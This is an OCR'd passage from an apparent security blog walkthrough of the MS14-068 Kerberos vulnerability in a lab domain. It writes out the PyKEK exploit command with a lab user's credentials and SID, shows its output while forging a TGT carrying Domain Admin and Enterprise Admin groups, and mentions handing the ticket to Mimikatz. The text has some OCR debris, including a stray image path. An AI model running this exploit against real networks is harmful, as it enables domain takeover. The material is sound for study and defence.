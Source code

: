 You can also get this information from PowerShell by running :
*>  [Security.Principal.> WindowsIdentity]::GetCurrent( )*

[![ADS-PowerShell-WhoAMI-DS-300x80.png](../_resources/6968b73b257f049c57130c33836ae984.png)](https://adsecurity.org/wp-content/uploads/2014/12/ADS-PowerShell-WhoAMI-DS.png)

As I noted in [my previous post on PyKEK](https://adsecurity.org/?p=660), the following group membership is included in the forged TGT:

- Domain Users (513)
- Domain Admins (512)
- Schema Admins (518)
- Enterprise Admins (519)
- Group Policy Creator Owners (520)

### **

Phase 1: Forging a TGT:
**
Here’s a screenshot of the exploit working in Kali Linux (1.09a)

[![ADS-Kali-MS14068-PyKEk-Exploit-300x203.png](../_resources/8acae0f4f837012131688bf675919984.png)](https://adsecurity.org/wp-content/uploads/2014/12/ADS-Kali-MS14068-PyKEk-Exploit.png)

After generating the ccache file containing the forged and validated TGT Kerberos ticket, the ccache file can be copied to a Windows computer to run Mimikatz.

It works well on Windows running Python as well (command is in bold & italics).

***> c:\Temp\pykek>ms14-068.py -u darthsidious@lab.adsecurity.org -p TheEmperor99! -s S-1-5-21-1473643419-774954089-222232912***

***>  7-1110 -d adsdc02.lab.adsecurity.org***
> [+] Building AS-REQ for adsdc02.lab.adsecurity.org… Done!
> [+] Sending AS-REQ to adsdc02.lab.adsecurity.org… Done!
> [+] Receiving AS-REP from adsdc02.lab.adsecurity.org… Done!
> [+] Parsing AS-REP from adsdc02.lab.adsecurity.org… Done!
> [+] Building TGS-REQ for adsdc02.lab.adsecurity.org… Done!
> [+] Sending TGS-REQ to adsdc02.lab.adsecurity.org… Done!
> [+] Receiving TGS-REP from adsdc02.lab.adsecurity.org… Done!
> [+] Parsing TGS-REP from adsdc02.lab.adsecurity.org… Done!
